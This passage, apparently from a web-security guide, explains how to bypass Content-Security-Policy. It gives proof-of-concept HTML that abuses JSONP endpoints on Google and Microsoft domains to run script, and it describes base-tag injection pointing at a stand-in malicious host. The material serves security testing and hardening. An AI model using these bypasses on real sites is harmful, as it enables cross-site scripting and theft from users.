```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src https://accounts.google.com;">
</head>
<body>
    <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>
</body>
```

This exploitation doesn't require unsafe-inline because the JSONP response handler script must be allowed in the CSP to serve legitimate requests.

References:

- JSONBee: Contains ready-to-use JSONP endpoints on different websites.
    

---

### Allowed microsoft.com in script-src

It's possible to bypass a CSP if it allows microsoft.com in script-src due to a CSP bypass found in WordPress.

```html
<head>
    <meta http-equiv=Content-Security-Policy content="script-src https://www.microsoft.com;">
</head>
<body>
    <script src=https://www.microsoft.com/en-us/research/wp-json?_jsonp=alert></script>
</body>
```

References:

- Bypass CSP Using WordPress By Abusing Same Origin Method Execution
    

---

### Missing or Misconfigured base-uri

If the **base-uri** directive is missing or misconfigured, attackers might be able to use a base tag injection attack. This can manipulate the URLs of relative links and forms on the page, potentially leading to redirecting users to malicious pages or stealing data.

Example attack scenario:

If a page allows an attacker to inject a `<base href="https://malicious-site.com/">` tag and no **base-uri** directive restricts this, the browser will interpret relative URLs on the page as relative to the malicious site, possibly causing scripts or resources to be loaded from attacker-controlled origins.

---

## How to Test and Harden Your CSP?
